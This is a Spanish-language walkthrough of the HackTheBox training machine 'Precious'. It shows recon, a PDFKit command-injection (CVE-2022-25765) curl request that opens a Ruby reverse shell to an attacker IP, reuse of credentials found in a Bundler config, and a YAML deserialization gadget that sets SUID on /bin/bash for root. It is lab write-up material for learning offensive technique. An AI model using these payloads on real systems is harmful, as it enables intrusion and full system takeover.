


## Introducción
El día de hoy veremos la máquina **Precious** de la plataforma de HackTheBox. Se trata de una máquina Linux de nivel fácil que aborda los siguientes conceptos:

- Command Injection en PDFKit v0.8.6 (CVE-2022-25765)
- Abuso de credenciales hardcodeadas en archivos de configuración
- Explotación de YAML deserialization inseguro (Escalada de Privilegios)

## Resolución

# Reconocimiento

Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.1.74 -oN puertos.txt
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Identificamos 2 puertos abiertos. Los servicios más relevantes para nuestra explotación son: SSH (22) y HTTP (80).

### Puerto 80 - HTTP

Al acceder al puerto 80, el servidor nos redirige automáticamente a `http://precious.htb/`. Procedemos a añadir el dominio a nuestro archivo `/etc/hosts`:

```bash
echo "10.129.1.74 precious.htb" | sudo tee -a /etc/hosts
```


La página muestra un servicio de conversión de páginas web a PDF. El usuario puede introducir una URL y el sistema genera un archivo PDF con el contenido de la página especificada.

# Explotación

### Enumeración del Servicio Web

Al interceptar las peticiones con **Burp Suite** después de realizar una conversión de prueba, observamos información crítica en la metadata del PDF generado:



El archivo PDF contiene la metadata que revela que el servicio utiliza **pdfkit v0.8.6** para la generación de PDFs. Esta versión específica es vulnerable al **CVE-2022-25765**, una vulnerabilidad de inyección de comandos.

### Análisis de la Vulnerabilidad CVE-2022-25765

PDFKit es una biblioteca de Ruby que permite convertir HTML a PDF utilizando el binario `wkhtmltopdf` por detrás. La vulnerabilidad CVE-2022-25765 existe porque PDFKit no sanitiza correctamente las URLs proporcionadas por el usuario antes de pasarlas como argumentos al comando del sistema.

Específicamente, si una URL contiene caracteres especiales como `?`, `#` o `%20`, PDFKit puede ser engañado para ejecutar comandos arbitrarios del sistema. El payload explota el uso de la sintaxis de protocolo `file://` junto con parámetros maliciosos.

### Preparación del Exploit

Localizamos un PoC para esta vulnerabilidad en GitHub: https://github.com/shamo0/PDFkit-CMD-Injection

El payload básico tiene la siguiente estructura:

```
http://example.com/?name=#{'%20`command`'}
```

Donde `command` es el comando del sistema que queremos ejecutar. Los backticks `` ` `` permiten la ejecución de comandos en Ruby.

### Estableciendo Reverse Shell

Para obtener acceso interactivo al sistema, utilizamos el exploit de PDFKit para ejecutar una reverse shell.

Nos ponemos en escucha con `netcat`:

```bash
nc -lvnp 4444
```

Construimos el payload malicioso.

```
curl 'http://precious.htb/' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb/' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.15.95%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.15.95%22%2C4444%29%29%27%60'
```

Enviamos la petición y obtenemos acceso exitoso al sistema como el usuario `ruby`:



# Movimiento Lateral

### Enumeración del Sistema

Una vez dentro del sistema como el usuario `ruby`, procedemos a buscar archivos de configuración que puedan contener credenciales o información sensible:

```bash
find / -name "config" 2>/dev/null
```

Entre los resultados, encontramos un archivo particularmente interesante en el directorio home del usuario:

```
/home/ruby/.bundle/config
```

Este archivo pertenece a **Bundler**, el gestor de dependencias de Ruby. Inspeccionamos su contenido:

```bash
cat /home/ruby/.bundle/config
```

```yaml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

El archivo contiene credenciales hardcodeadas para el usuario `henry`. Este es un error común en la configuración de aplicaciones donde las credenciales se almacenan en texto plano en archivos de configuración.

### Acceso como usuario Henry

Utilizamos las credenciales encontradas para cambiar al usuario `henry` mediante SSH o directamente con `su`:

```bash
su henry
Password: Q3c1AqGHtoI0aXAYFH
```

Obtenemos acceso exitoso como `henry`. La flag de usuario se encuentra en `/home/henry/user.txt`.

# Escalada de Privilegios

### Enumeración de Privilegios Sudo

Una vez como el usuario `henry`, verificamos los comandos que podemos ejecutar con privilegios de root:

```bash
sudo -l
```

```
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

El usuario `henry` puede ejecutar el script `/opt/update_dependencies.rb` como root sin proporcionar contraseña. Examinamos el contenido del script:

```bash
cat /opt/update_dependencies.rb
```

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

### Análisis de la Vulnerabilidad

El script presenta una vulnerabilidad crítica en la función `list_from_file`, que utiliza `YAML.load()` para cargar el archivo `dependencies.yml` desde el directorio actual.

**Problemas identificados:**

1. **YAML Deserialization Inseguro:** `YAML.load()` es vulnerable a ataques de deserialización. Permite la ejecución de código arbitrario si el archivo YAML contiene objetos Ruby maliciosos.

2. **Path Traversal:** El script lee `dependencies.yml` desde el directorio de trabajo actual (CWD), no desde una ruta absoluta. Esto significa que podemos ejecutar el script desde cualquier directorio donde tengamos permisos de escritura y crear nuestro propio archivo `dependencies.yml` malicioso.

### Explotación de YAML Deserialization

Ruby permite la serialización de objetos en formato YAML. Podemos abusar de esto para ejecutar comandos del sistema mediante la clase `Gem::Installer` o `Gem::Requirement`, que permiten ejecutar código durante la deserialización.

**Paso 1:** Nos dirigimos a un directorio donde tengamos permisos de escritura, como `/tmp`:

```bash
cd /tmp
```

**Paso 2:** Creamos un archivo `dependencies.yml` malicioso que aprovecha la deserialización insegura de YAML:

```bash
cat > dependencies.yml << 'EOF'
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
EOF
```

Este payload YAML explota el comportamiento de deserialización de Ruby para ejecutar el comando `chmod +s /bin/bash`, que establece el bit SUID en `/bin/bash`, permitiéndonos obtener una shell con privilegios de root.

**Paso 3:** Ejecutamos el script vulnerable con privilegios de root desde nuestro directorio actual:

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

El script procesará nuestro `dependencies.yml` malicioso, ejecutando el payload durante la deserialización.

**Paso 4:** Verificamos que el bit SUID se haya establecido correctamente:

```bash
ls -la /bin/bash
```

```
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

**Paso 5:** Ejecutamos bash con privilegios de root utilizando el flag `-p` para preservar los privilegios:

```bash
/bin/bash -p
```

Obtenemos una shell con privilegios de root. La flag de root se encuentra en `/root/root.txt`.

¡Ya somos root! 🎉